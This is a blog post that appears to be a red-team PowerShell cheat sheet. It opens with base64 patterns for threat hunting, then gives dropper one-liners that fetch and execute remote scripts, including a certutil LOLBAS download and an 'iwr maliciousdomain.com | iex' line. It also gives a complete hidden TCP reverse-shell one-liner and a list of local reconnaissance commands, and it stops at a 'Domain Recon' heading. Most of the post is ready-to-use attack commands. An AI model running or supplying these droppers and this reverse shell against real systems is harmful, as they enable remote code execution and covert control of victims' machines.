 ```yaml
---
layout: post
title:  "Powershell for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Red teaming powershell scripts. Droppers and more.

--- Threat Hunting Patterns ---
Base64 is deterministic. Meaning there is no randomness. So, identifying patterns is important when threat hunting and creating SIEM rules.
- SQBuAHYAbwBrAGUALQBX (Invoke-WebRequest)
- aQBlAHgAIAAoAE4AZQB3 (iex (New-Object Net.WebClient))

### Droppers
--- Unencoded Droppers ---
- ``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ``` (Downloads to disk)
- ``` powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://google.com/safe-script.ps1')" ``` (Downloads to memory)
- ``` powershell -Command certutil -urlcache -split -f https://google.com/safe-script.ps1 payload.exe``` (LOLBAS Download)
- ``` powershell iwr maliciousdomain.com | iex ``` ()

### Reverse Shell One-Liners
--- TCP Rev Shell ---
- ``` powershell -NoP -NonI -W Hidden -Command "$c=New-Object Net.Sockets.TCPClient('RemoteIP',RemotePort);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){; $d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1 | Out-String);$r2=$r+'PS '+(pwd).Path+'> ';$sb=([text.encoding]::ASCII).GetBytes($r2);$s.Write($sb,0,$sb.Length)}" ```

### Recon Commands
--- Local Recon ---
- ```Get-Process```
- ```Get-LocalUser```
- ```Get-NetIPConfiguration```
- ```Get-NetTCPConnection | Where-Object {$_.State -eq "Listen"}```
- ```whoami /user```
- ```Get-LocalGroupMember -Group "Administrators"```
- ```Get-LocalGroup | ForEach-Object { Get-LocalGroupMember -Group $_.Name }```
- ```Get-SmbShare```
- ```net view \\hostname```
- ```Get-Service | Where-Object {$_.Status -eq 'Running'}``` 

--- Domain Recon ---